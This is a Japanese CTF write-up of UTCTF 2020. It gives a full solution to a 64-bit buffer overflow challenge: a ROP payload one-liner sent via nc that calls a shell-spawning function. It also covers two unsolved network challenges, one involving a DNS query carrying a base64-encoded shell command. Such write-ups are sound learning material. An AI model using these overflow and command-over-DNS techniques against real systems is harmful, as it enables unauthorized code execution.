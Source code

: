 ```yaml
---
title: "UTCTF Writeup | フラxxグゲット"
date: 2020-03-09T22:00:00+09:00
lastmod: 2020-03-09T22:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF", "Reviewed"]
categories: ["CTF"]
author: ""
---
```

URL: [https://utctf.live/challenges](https://utctf.live/challenges)
<br /><br />
えと、簡単なのしか解いてないので、テキトーです。

<br /><br />

<img src="https://captureamerica.github.io/writeups/img/utctf_2020_Score1.png" alt="utctf_2020_Score1.png">


<br /><br />
## [Pwn]: bof
- - -
### Challenge
> nc binary.utctf.live 9002

Attachment:

- pwnable (ELF 64bit)


<br />
### Solution
Ghidraでソースを確認します。

```C
undefined8 main(void)
{
  char local_78 [112];
  
  puts("I really like strings! Please give me a good one!");
  gets(local_78);
  puts("Thanks for the string");
  return 1;
}

void get_flag(int param_1)
{
  char *local_18;
  undefined8 local_10;
  
  if (param_1 == -0x21524111) {
    local_18 = "/bin/sh";
    local_10 = 0;
    execve("/bin/sh",&local_18,(char **)0x0);
  }
  return;
}
```

<br>
<pre>
captureamerica@kali:~/CTF/UTCTF_2020$ checksec ./pwnable 
[*] '/home/captureamerica/CTF/UTCTF_2020/pwnable'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
</pre>

タイトル通りBuffer Overflowのチャレンジで、get_flagを正しい引数で呼べたら/bin/shが呼ばれる、というやつです。

あと、これは64bitです。

<br>
pop rdi ; retを使います。
<pre>
captureamerica@kali:~/CTF/UTCTF_2020$ ROPgadget --binary pwnable | grep ret | grep ": pop"
0x000000000040068c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400690 : pop r14 ; pop r15 ; ret
0x0000000000400692 : pop r15 ; ret
0x0000000000400582 : pop rbp ; mov byte ptr [rip + 0x200abe], 1 ; ret
0x000000000040068b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040068f : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400520 : pop rbp ; ret
0x000000000040028e : pop rbp ; retf 0x2d9e
0x0000000000400693 : pop rdi ; ret   <--- これ
0x0000000000400691 : pop rsi ; pop r15 ; ret
0x000000000040068d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
</pre>

<br>
get_flag()関数のアドレス
<pre>
gef➤  x get_flag
0x4005ea <get_flag>:	0xe5894855
</pre>

<br>
引数はよくある0xdeadbeefです。（0xffffffffを足しているんで、更に+1します）
<pre>
captureamerica@kali:~/CTF/UTCTF_2020$ python3
>>> hex(-0x21524111+0xffffffff)
'0xdeadbeee'
</pre>


<br>
以下でフラグゲット。
<pre>
captureamerica@kali:~/CTF/UTCTF_2020$ (python -c "print('a'*112+'a'*8+'\x93\x06\x40\x00\x00\x00\x00\x00'+'\xef\xbe\xad\xde\x00\x00\x00\x00'+'\xea\x05\x40\x00\x00\x00\x00\x00')" ; cat - ) | nc binary.utctf.live 9002
I really like strings! Please give me a good one!
Thanks for the string
id
uid=1000(stackoverflow) gid=1000(stackoverflow) groups=1000(stackoverflow)
ls
flag.txt
cat flag.txt
utflag{thanks_for_the_string_!!!!!!}
</pre>


<br />
Flag: `utflag{thanks_for_the_string_!!!!!!}`


<br /><br />
<br /><br />
さて、ここから下は、解きたかったけど解けなくて諦めたやつです。

## [Network]: Nittaku 3 Star Premium
- - -
### Challenge
> I found some weird data while monitoring my network, but I didn't catch it all. See if you can make sense of it.

Attachment:

- capture.pcap

<br />
### (Unsolved)
ICMP（ping）に大きなデータがついてます。だからチャレンジ名がNittaku 3 starなんですね。なかなかネーミングセンスがいいです。

4つに分かれているので、ひとつにまとめて、base64デコードするとgzファイルになって中にflag.pngが入ってます。

ただし、壊れたgzファイルになっちゃうので、フラグが部分的にしか取れませんでした。。。


<br /><br />
<br /><br />
(2020/03/09 - Writeup見ました。)

フラグの続きは実際にPingをして取ってこないといけなかったようですね。ふーん。




<br /><br />
<br /><br />
## [Network]: Do Not Stop
- - -
### Challenge
> One of my servers was compromised, but I can't figure it out. See if you can solve it for me!

Attachment:

- capture.pcap

<br />
### (Unsolved)
DNSがbas64エンコードされています。肝心なフラグの中身はpcapの中には含まれていないようです。

DNSサーバが35.188.185.68なので、そこに対して`cat flag.txt`をbase64エンコードしたものをクエリーするとフラグが取れると思ったんですが、DNSサーバに繋がらなくてダメでした。。。

Discordでも、サーバに繋がらないよ〜って言っている人が何人かいたんですけど、Adminの人はサーバ動いているよ、って言っているし。


<pre>
captureamerica@kali:~$ dig -t TXT Y2F0IGZsYWcudHh0Cg== @35.188.185.68

; <<>> DiG 9.11.5-P4-5.1+b1-Debian <<>> -t TXT Y2F0IGZsYWcudHh0Cg== @35.188.185.68
;; global options: +cmd
;; connection timed out; no servers could be reached
</pre>


<br /><br />
<br /><br />
(2020/03/09 - Writeup見ました。)

なんか、クエリーを投げるDNSサーバは35.188.185.68じゃなかったみたいです。。。




<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />

